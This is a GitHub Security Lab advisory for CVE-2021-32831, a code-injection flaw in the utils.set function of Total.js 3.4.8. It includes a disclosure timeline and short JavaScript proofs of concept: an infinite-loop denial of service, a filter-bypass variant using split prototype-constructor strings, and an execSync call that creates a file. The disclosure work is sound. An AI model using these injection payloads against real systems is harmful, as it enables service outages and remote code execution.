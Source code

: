 <header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">July 21, 2021</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2021-066: DoS and RCE in totaljs</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/ghsecuritylab">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/61799930?s=35" height="35" width="35">
        <span>GitHub Security Lab</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      
<h2 id="coordinated-disclosure-timeline">Coordinated Disclosure Timeline</h2>

<ul>
  <li>2021-04-08: Report sent to maintainers</li>
  <li>2021-06-04: Requested maintainers acknowledgment of the report</li>
  <li>2021-07-01: Re-requested maintainers acknowledgment of the report</li>
  <li>2021-07-07: Deadline expired without maintainers acknowledgment</li>
  <li>2021-07-21: Publication as per our disclosure policy</li>
</ul>

<h2 id="product">Product</h2>

<p>Total.js</p>

<h2 id="tested-version">Tested Version</h2>

<p>Latest version available on npm <code class="language-plaintext highlighter-rouge">3.4.8</code>.</p>

<h2 id="details">Details</h2>

<p>Calling the <code class="language-plaintext highlighter-rouge">utils.set</code> function with user-controlled values leads to code-injection.</p>

<h4 id="impact">Impact</h4>

<p>An attacker can execute abitrary javascript code in the context of node.</p>

<h4 id="resources">Resources</h4>

<p><em>Proof of concept: Denial of service</em></p>

<p>The PoC causes a DoS by going into an infinite loop.</p>

<div class="language-js highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="kd">var</span> <span class="nx">utils</span> <span class="o">=</span> <span class="nx">require</span><span class="p">(</span><span class="dl">'</span><span class="s1">total.js/utils</span><span class="dl">'</span><span class="p">);</span>
<span class="nx">utils</span><span class="p">.</span><span class="kd">set</span><span class="p">({},</span><span class="dl">'</span><span class="s1">a;Function(`while(1)1;`)();//</span><span class="dl">'</span><span class="p">);</span> 

<span class="c1">// Alternatively if "Function" is sanitized (similar to how "eval is currently sanitized), then the below will still work: </span>
<span class="nx">utils</span><span class="p">.</span><span class="kd">set</span><span class="p">({},</span><span class="dl">'</span><span class="s1">f[`__` + `proto__`][`cons` + `tructor`][`cons` + `tructor`](`while(1)1;`)();//</span><span class="dl">'</span><span class="p">)</span>
</code></pre></div></div>

<p><em>Proof of concept: Code execution</em></p>

<p>This PoC creates a file <code class="language-plaintext highlighter-rouge">GHSL</code> inside the current working directory.</p>

<div class="language-js highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="kd">var</span> <span class="nx">utils</span> <span class="o">=</span> <span class="nx">require</span><span class="p">(</span><span class="dl">'</span><span class="s1">total.js/utils</span><span class="dl">'</span><span class="p">);</span>
<span class="nx">utils</span><span class="p">.</span><span class="kd">set</span><span class="p">({},</span><span class="dl">'</span><span class="s1">a;Function(`require("child_process")</span><span class="se">\\</span><span class="s1">x2eexecSync("touch GHSL")`)();//</span><span class="dl">'</span><span class="p">)</span>
</code></pre></div></div>

<h2 id="cve">CVE</h2>

<ul>
  <li>CVE-2021-32831</li>
</ul>

<h2 id="resources-1">Resources</h2>

<ul>
  <li><a href="https://github.com/totaljs/framework/commit/887b0fa9e162ef7a2dd9cec20a5ca122726373b3">Commit</a></li>
</ul>

<h2 id="credit">Credit</h2>

<p>This issue was discovered by <a href="https://github.com/erik-krogh">@erik-krogh (Erik Krogh Kristensen)</a>.</p>

<h2 id="contact">Contact</h2>

<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include <code class="language-plaintext highlighter-rouge">GHSL-2021-066</code> in any communication regarding this issue.</p>


    